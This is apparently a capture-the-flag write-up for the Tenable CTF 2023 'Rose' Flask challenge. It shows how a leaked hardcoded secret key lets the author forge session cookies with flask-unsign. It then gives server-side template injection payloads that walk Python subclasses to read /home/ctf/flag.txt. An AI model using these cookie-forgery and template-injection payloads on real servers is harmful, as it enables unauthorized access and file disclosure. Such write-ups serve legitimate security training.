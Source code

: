 # Rose| *Web / Cloud*

## The task
![Screenshot of the task](/tenable_ctf_2023/rose/imgs/Task.png)
So the task is to gain access to the /home/ctf/flag.txt file from on the server. To do this we have access to the server and a .zip file containing some flask source code.

## The process
Lets start with the source code and see if there is anything that stands out.
```
#@main.route('/signup')
#def signup():
#    return render_template('signup.html')
```
As the task said the signups have been closed so looks like were going to need to find an accound to use. lets see how its logging us in.
```
@main.route('/', methods=['POST'])
def login_post():
    email = request.form.get('email')
    password = request.form.get('password')
    remember = True if request.form.get('remember') else False

    user = User.query.filter_by(email=email).first()

    if not user or not check_password_hash(user.password, password): 
        flash('Please check your login details and try again.')
        return redirect(url_for('main.index'))

    login_user(user, remember=remember)
    session["name"] = current_user.name
    return redirect(url_for('main.dashboard'))

```
So its making use of some of the flask-login functions to check passwords but also using some sql filter queries to check the first email it finds. This could potentially have some SQL injection avenues. Also note that if it is sucessfull the user is given a session cookie with "name" of their username and redirected.

After a bit more looking arround we find a silver bullet in the \_\_init\_\_.py file. `app.config['SECRET_KEY'] = 'SuperDuperSecureSecretKey1234!'`. Theres no way that they kept that in the live build right? Only one way to see...

## The code
We start by checking if we can sign our own cookie with the known secret key using flask-unsign.
> To help with making it more legiable I tend to use env variable to store the token and cookie values.
```
cookie="{'This is a test': True }"

flask-unsign --sign --cookie $cookie --secret SuperDuperSecureSecretKey1234!
```
this returns a cookie: `eyJUaGlzIGlzIGEgdGVzdCI6dHJ1ZX0.ZNYe-Q.nTYQwxeQPwoUIe7Ifjzdx6OfZzk`. We are going to take this cookie and add it to our login attempt. To do this first press the login butto with no inputs to recieve a cookie then click on the value and change it to the new cookie.
![adding session token / cookie](/tenable_ctf_2023/rose/imgs/add_session_cookie.png)
> Remember this process, we will be doing it a few more times

Once you login this time you will see that the cookie changes, copy the new cookie and run a decode on it:
```
token=eyJUaGlzIGlzIGEgdGVzdCI6dHJ1ZSwiX2ZyZXNoIjpmYWxzZX0.ZNYfbA.7PNA_FIKilkowUX7YLQVaV7eDMI

flask-unsign --decode --cookie $token  
```
This returns: `{'This is a test': True, '_fresh': False}`

Success it looks like they kept the secret key the same, not so *'SuperDuperSecure'* afterall. Now we can see if we can login to the dashboard. To do this we go back to the source code and flask-login docs to see what we need to login.
```
if("name" in session.keys()):
    return redirect(url_for('main.dashboard'))
...

@main.route('/dashboard')
@login_required
...

@login_manager.user_loader
def load_user(user_id):
    return User.query.get(int(user_id))
```
Through this we find that we need to have `"name"` in the session and meet the @login_required criteria, luckily its all documented and all we need is `is_authenicated` to be true and a valid `user_id`. Luckily for that it doesn't need to match the name so since there must be at least 1 user, 1 should work fine. Therfore our new cookie is: `cookie="{'is_authenticated': True, '_user_id': '1', 'name': 'test'}"`

Once we run that through the flask-unsign process again and hit login we gain access to the dashboard.
![were in to the dashboard](/tenable_ctf_2023/rose/imgs/were_in.png)
So what now? looks like the dashboard is also the same as our source and in dev with no sign of the /home/ctf/flag.txt file. To start lets look at the dashboard code.
```
def dashboard():
    template = '''
{% extends "base.html" %} {% block content %}
<h1 class="title">
    Welcome, '''+ session["name"] +'''!
</h1>
<p> The dashboard feature is currently under construction! </p>
{% endblock %}
'''
    return render_template_string(template)
```
Thats odd, its not a templated page but rather it renders the template string which just so happens to include our session["name"]. From here we can run some tests and see if we can get the name from the actuall current user but adding our own flask {{ }} statements in the name.

`cookie="{'is_authenticated': True, '_user_id': '1', 'name': 'Name: {{ current_user.name }} PASS: {{ current_user.password }}'}"`

![name and pass extraction](/tenable_ctf_2023/rose/imgs/name_and_pass.png)

Well that seems promising, sadly however we don't have much use for the username and password as we already see the dashboard. But what other variables can we print? Well with a bit of help from google I found a way to reference classes through the use of ``.\_\_class\_\_`` , ``.\_\_base\_\_`` and ``.\_\_subclasses\_\_()`` calls in python.

We slowly step through each phase to try and reach the `\_io.FileIO` / file.read() class. Each time getting a new cookie and refreshing the page starting with:
```
cookie="{'is_authenticated': True, '_user_id': '1', 'name': 'TEST: {{ current_user.name.__class__.__base__.__subclasses__() }}'}"
```
which returns: 
```
[<... <class '_thread.RLock'>, <class '_thread._localdummy'>, <class '_thread._local'>, <class '_io._IOBase'>,...]

```
And we keep searching untill:
```
cookie="{'is_authenticated': True, '_user_id': '1', 'name': 'TEST: {{ current_user.name.__class__.__base__.__subclasses__()[111].__subclasses__()[0].__subclasses__() }}'}"
```
which finally gives use the `\_io.FileIO` class

From there we simply add the path of the file and .read() it.
```
cookie="{'is_authenticated': True, '_user_id': '1', 'name': 'TEST: {{ current_user.name.__class__.__base__.__subclasses__()[111].__subclasses__()[0].__subclasses__()[0](\'/home/ctf/flag.txt\').read() }}'}"

```
![flag has been found](/tenable_ctf_2023/rose/imgs/flag_found.png)
And there you go, the flag `flag{wh4ts_1n_a_n4m3_4nd_wh4ts_in_y0ur_fl4sk}` has been found.

